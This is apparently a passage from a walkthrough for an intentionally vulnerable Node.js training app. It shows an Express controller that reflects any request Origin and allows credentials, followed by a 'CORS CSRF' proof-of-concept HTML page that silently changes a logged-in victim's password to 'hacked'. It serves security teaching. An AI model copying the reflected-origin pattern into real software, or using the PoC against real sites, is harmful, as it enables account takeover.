 **Route: /routes/app.js**

```js
router.get('/cors-api-token', authenticateToken, vuln_controller.cors_api_token_get);

```

**Controller: /controllers/vuln_controller.js**

```js
const cors_api_token_get = (req, res) => {
    const apiToken = req.user.apiToken;
    if (req.get('origin') !== undefined) {
        res.header("Access-Control-Allow-Origin", req.get('origin'));
        res.header("Access-Control-Allow-Credentials", 'true');
    }
    res.render('cors-api-token', { apiToken })
}
```

## 14 CORS CSRF

`cors-csrf-edit-password` endpoint is used for updating password this endpoint only accepts content type `application/json` and it is not possible to send this content type without application allowing cross origin connection so we test for it and find out that endpoint is vulnerable to Cross Origin Resource Sharing we can exploit it to perform CSRF and change victim password.  

### Exploit:

1. Host the following code in an HTML file on your attacker server.  

```html
<html>
<body>
<center>CORS CSRF POC</center>
<script>
const data = {"password": "hacked", "password_confirm":"hacked"}

document.addEventListener('readystatechange', ()=>{
  fetch(
        'http://tauheedkhan.com:9000/cors-csrf-edit-password', {
        method: 'POST',
        credentials: 'include',
        headers: {'Content-Type': 'application/json'},
        body: JSON.stringify(data)
  })
    .then(resp => resp.text())
      .then(respText => {
        alert(respText);
      })
})
</script>
</body>
</html>
```
